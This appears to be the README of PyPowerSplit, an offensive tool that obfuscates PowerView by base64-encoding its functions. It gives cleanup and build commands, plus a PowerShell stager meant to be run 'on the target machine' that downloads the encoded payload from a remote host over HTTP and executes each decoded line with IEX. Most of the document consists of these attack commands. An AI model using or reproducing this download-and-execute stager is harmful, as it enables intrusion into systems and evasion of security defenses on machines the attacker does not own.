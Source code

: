  
# How it works
The idea is to split the ps1 script into functions, base64 encode all functions and dump that into a file. Then load the file with powershell and loop through all the lines, base64 decode and IEX. Profit!

# Clean the powershell script
Remove all the comments and docs
```
awk '/<#/{flag=0;next}/#>/{flag=1}flag' PowerView.ps1 > pv.ps1
```

The python script takes care of removing the inline comments (starts with `#`)

# Run
```
python PyPowerSplit.py pv.ps1 > p
```

# Powershell (run.ps1)
To run the code, run this on the target machine. Change the address accordingly.
```
ForEach ($line in $((New-Object Net.WebClient).DownloadString('http://192.168.0.248:5555/p') -split "\n"))
{
    [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($line)) | IEX
}
```

# DEMO
[![Demo](https://github.com/oXis/PyPowerSplit/raw/master/vid/demo.gif)]()